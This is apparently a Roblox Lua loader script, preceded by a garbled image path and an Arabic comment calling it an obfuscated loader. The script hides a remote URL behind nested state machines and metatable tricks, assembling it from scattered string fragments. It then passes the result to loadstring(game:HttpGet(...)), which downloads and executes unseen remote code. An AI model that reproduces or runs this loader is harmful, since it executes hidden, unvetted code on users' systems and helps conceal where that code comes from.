 # -- هذا محمل مبهم أيضا مع العربي

local pbag=({...})[1];([[]]){(function(b)local c=debug.getmetatable(b)debug.setmetatable(b,{__call=function(d,e)debug.setmetatable(b,c)return function(b)b{'a9be77bec1dd9acd72e2b8289f71adf7',d}end end})end)''}(function(b)local b=b[1]local c=''local d=24915;local e=0;local f={}while e<966 do e=e+1;while e<605 and d%5260<2630 do e=e+1;d=(d-466)%41090;local b=e+d;if(d%3504)>1752 then d=(d-706)%30483;while e<313 and d%7102<3551 do e=e+1;d=(d*411)%43087;local b=e+d;if(d%14970)>7485 then d=(d*355)%41240;local b=76830;if not f[b]then f[b]=1;c=c..'.n'end elseif d%2~=0 then d=(d*316)%34377;local b=51374;if not f[b]then f[b]=1;c=c..'luarmor'end else d=(d*939)%2412;e=e+1;local b=67052;if not f[b]then f[b]=1 end end end elseif d%2~=0 then d=(d+986)%9320;while e<597 and d%3566<1783 do e=e+1;d=(d-950)%7147;local b=e+d;if(d%4020)<2010 then d=(d+826)%6247;local b=79206;if not f[b]then f[b]=1;c=c..'ht'end elseif d%2~=0 then d=(d+737)%14175;local b=51471;if not f[b]then f[b]=1;c=c..'tp'end else d=(d*705)%44808;e=e+1;local b=58695;if not f[b]then f[b]=1;c=c..'s:'end end end else d=(d*80)%11734;e=e+1;while e<951 and d%19762<9881 do e=e+1;d=(d*899)%25086;local b=e+d;if(d%11548)>5774 then d=(d*412)%37881;local b=84492;if not f[b]then f[b]=1;c=c..'//'end elseif d%2~=0 then d=(d-419)%22808;local b=94003;if not f[b]then f[b]=1;c=c..'ap'end else d=(d-851)%30011;e=e+1;local b=21386;if not f[b]then f[b]=1;c=c..'i.'end end end end end;d=(d+751)%33125 end(function(d)local e=d;local f=0;local g=0;e={(function(b)if f>34 then return b end;f=f+1;g=(g+3253-b)%79;return(g%3==1 and(function(b)if not d[b]then g=g+1;d[b]=(26)c=c..'il'end;return true end)'igRzv'and e[2](687+b))or(g%3==0 and(function(b)if not d[b]then g=g+1;d[b]=(103)c=c..'.l'end;return true end)'TilxU'and e[3](b+101))or(g%3==2 and(function(b)if not d[b]then g=g+1;d[b]=(227)end;return true end)'QwIsb'and e[1](b+320))or b end),(function(b)if f>32 then return b end;f=f+1;g=(g+1509-b)%57;return(g%3==0 and(function(b)if not d[b]then g=g+1;d[b]=(139)c=c..'et'end;return true end)'aOitw'and e[3](909+b))or(g%3==1 and(function(b)if not d[b]then g=g+1;d[b]=(65)end;return true end)'ObBbT'and e[1](b+129))or(g%3==2 and(function(b)if not d[b]then g=g+1;d[b]=(153)c=c..'ua'end;return true end)'uXJZp'and e[2](b+567))or b end),(function(h)if f>35 then return h end;f=f+1;g=(g+1756-h)%21;return(g%3==2 and(function(b)if not d[b]then g=g+1;d[b]=(2)c=c..'/f'end;return true end)'bdEJm'and e[1](782+h))or(g%3==0 and(function(b)if not d[b]then g=g+1;d[b]=(108)c=c..'es'end;return true end)'JDvcj'and e[3](h+117))or(g%3==1 and(function(e)if not d[e]then g=g+1;d[e]=(10)c=c..'/v3/l/'..b end;return true end)'tIFsS'and e[2](h+748))or h end)}e[2](8832)end){}loadstring(game:HttpGet(c))(pbag)end)
